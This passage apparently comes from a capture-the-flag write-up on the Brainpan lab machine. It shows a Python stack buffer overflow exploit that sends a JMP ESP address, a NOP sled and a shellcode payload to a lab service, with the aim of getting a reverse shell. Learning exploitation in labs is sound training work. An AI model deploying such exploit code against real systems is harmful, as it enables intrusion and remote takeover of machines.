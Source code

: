 ```python

# This 4-byte JMP ESP (little-endian) from mona. Change if yours differs.
eip      = b"\xF3\x12\x17\x31"   # JMP ESP â†’ 0x311712f3

# NOP sled to give the shellcode some landing space
nop_sled = b"\x90" * 32

buffer = padding + eip + nop_sled + payload

# â”€â”€â”€ 3. SET UP TARGET CONNECTION â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€
host = "10.10.87.171"   # â† change to your Brainpan IP if different
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((host, port))
except Exception as e:
    print(f"[-] Could not connect to {host}:{port} -> {e}")
    sys.exit(1)

# Optional: read any initial banner or prompt
try:
    banner = s.recv(1024)
    print(banner.decode(errors="ignore"))
except:
    pass

# â”€â”€â”€ 4. SEND THE EXPLOIT (PASSWORD) â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€
#
# Brainpan expects a â€œpasswordâ€ line, so append "\r\n" so itâ€™s treated as input.
s.send(buffer + b"\r\n")
print("[+] Exploit buffer sent! The reverse shell should connect back on its own.")

# Give the payload a moment to spawn the shell, then close the socket.
sleep(1)
s.close()
```

Ok, we got the exploit, let's send it and check our listener then:
